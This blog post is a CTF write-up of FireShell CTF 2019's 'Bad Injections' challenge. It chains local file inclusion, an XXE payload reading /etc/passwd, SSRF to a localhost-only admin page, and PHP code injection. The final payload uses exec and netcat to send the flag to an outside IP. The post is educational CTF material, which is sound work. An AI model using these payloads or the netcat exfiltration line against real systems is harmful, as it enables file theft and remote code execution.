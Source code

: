 ```yaml
---
layout: post
title: Bad Injections
permalink: badInjections 
date: 2019-01-27
comments: 1
categories: CTF
tags: writeup
---
```

Today <strong>FireShell CTF 2019</strong> wrapped up and ended. I had fun and i learned a lot. Coming into the ctf, i was expecting something a little more complicated than trivial, however it proved to be quite a challenge for my first ever serious ctf attempt. I decided to take on the most solved Web Application challenge called "<strong>Bad Injections</strong>". With the help of my amazing friends and fellow contenders i came close to solving it, but ran out of energy at 2AM, 2 hours away from the end of the ctf. 

The website greets us with 4 tabs and has a great deal of red herrings. The about page has SQL code hidden in its source file and the contact-us page has a non-functional feedback form. Really the only tab of interest is the List tab. It displays two images with one appearing to be broken. Upon closer inspection, it turns out that it's not an image, but a text file. 

It's particularly interesting how it is retrieved: {% highlight html %}<img src="download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b" height="500">{% endhighlight %}

The website uses /download and passes it two parameters: <strong>file path and name + a hash</strong>. Quick look in a hash analyzer tells us it's most likely MD5, which can easily be broken. 

{% highlight language %}293d05cb2ced82858519bdec71a0354b{% endhighlight %}This hash when broken reveals the first parameter, {% highlight js %}files/test.txt{% endhighlight %} Lets explore how we can use this newfound knowledge and issue a manual GET request to {% highlight js %}download?file=files/test.txt&amp;hash=293d05cb2ced82858519bdec71a0354b{% endhighlight %}

We get an error in the response body: 

{% highlight language %}
<br />
<b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
{% endhighlight %}

<h2>Local File Inclusion</h2>

Conveniently this error gives us a path for Download.php. Knowing the file path, we can get the second parameter by hashing it and indeed, this works when we issue the request. We get the php source of Download.php. I researched directory structures of a couple php frameworks and this structure looked to me like CakePHP 2.x and to confirm it i tried getting .htaccess on the same level as the app folder. Indeed i got it. Knowing it is CakePHP, there's no need to bruteforce or do directory discovery (<strong>and both were banned by the ctf organizers anyways</strong>), as we can just try to get the routing rules of the server from Routes.php. This gives us the list of resources for the website: {% highlight js %}AboutUs.php, Admin.php, ContactUs.php, Custom.php, Download.php, Lista.php, Routes.php, Verify.php, index.php{% endhighlight %}

Here again we encouter a bunch of red herrings: Verify.php issues a Curl command and some of the people i collaborated with thought this was exploitable, but it wasn't. There's this SQL code {% highlight js %}SELECT * FROM users{% endhighlight %} in AboutUs.php, which is useless. ContactUS.php doesn't do anything, neither does Index.php or Lista.php. The only two files of interest here are Admin.php and Custom.php.

First lets look how Custom is invoked in Routes.php:
{% highlight php %}
Route::set('custom',function(){
  $handler = fopen('php://input','r');
  $data = stream_get_contents($handler);
  if(strlen($data) > 1){
    Custom::Test($data);
  }else{
    Custom::createView('Custom');
  }
});
{% endhighlight %}

It takes user input and calls the Test function. Now onto Custom.php:
{% highlight php %}
public static function Test($string){
    $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
    $test = $root->name;
    echo $test;
}
{% endhighlight %}

<h2>XML External Entity Injection</h2>

The Test function takes in the input and parses it as XML. Certainly issuing a GET request to /custom doesn't do anything and as was suggested to me by <strong>TheZakMan</strong> on the FireShell discord, i tried issuing a POST request to it and it worked. He sent it a piece of XML and discovered that it is vulnerable to <strong>Xml External Entity injection</strong>. I've never muddled in anything related to XML before, so it was a learning experience for me. I managed to inject the XMl code and read the first line of etc/passwd, but the rest was cut off by a million errors. Not before <strong>sixcross</strong> on discord showed me his XML code, i realized that i only got a messy response with mine because of some issue about single and double quotes.

This XML payload gave me a working injection:
{% highlight xml %}
<?xml version='1.0'?> 
<!DOCTYPE foo [<!ELEMENT name ANY >
<!ENTITY result SYSTEM 'file:///etc/passwd'>]>
<foo>
  <name>&result;</name>
</foo>
{% endhighlight %}

<h2>Server-Side Request Forgery</h2>

Now onto Routes.php to take a look at how the admin page is invoked:
{% highlight php %}
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
{% endhighlight %}

As you can see here, a condition prevents us from directly accessing the /admin page:
{% highlight php %}
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
    Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
{% endhighlight %}

Only if we come from IPV4 or IPV6 localhost can we call Admin::sort.

Now lets see what Admin.php does:
{% highlight php %}
$uri = parse_url($url);
    $file = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadXML($file,LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
{% endhighlight %}

It accepts XML input. <strong>sixcross</strong> suggested we try injecting a command to get <strong>remote code execution</strong> through this part: 
{% highlight php %}usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));{% endhighlight %}

<h2>Remote Code Execution</h2>

He was absolutely right. I also noticed that the first parameter "rss" is accepted as an XML, however this was the furthest i got before my brain ceased to function at 2AM. 

The credit for the rest of it goes to the writeup by <strong>OmniscientSec</strong>. He discovered that not only does the first parameter accept XML, but that the second one accepts <strong>arbitrary code</strong>.

With the following payload he managed to exfil the flag with netcat:
{% highlight xml %}
http://127.0.0.1/admin?rss=http://45.76.39.243/a.xml&order=link.file_get_contents('
http://{your_ip}/'.exec('cat'.chr(32).
'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'45.76.39.243'.chr(32).'1234'))"
{% endhighlight %}

Funny enough, the flag fully describes my experience with this challenge:
{% highlight language %}
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
{% endhighlight %}

<h2>Conclusion</h2>

In conclusion, this challenge has proven to be a challenge and i learned a lot when trying to solve it. I ultimately failed, but i learned so much about PHP, XML and URL parameters that i feel like in my next CTF i will certainly be able to solve a challenge of this difficulty, given enough time.

<h3>Thanks go to:</h3>
<strong>kronie</strong> for helping me understand PHP,
<strong>TheZakMan</strong> for figuring out there is an XML injection,
<strong>sixcross</strong> for his XML payload and figuring out RCE,
OmniscientSec for solving the challenge, unlike the rest of us peasants
and most importantly to <strong>FireShell CTF</strong> for making an awesome challenge.
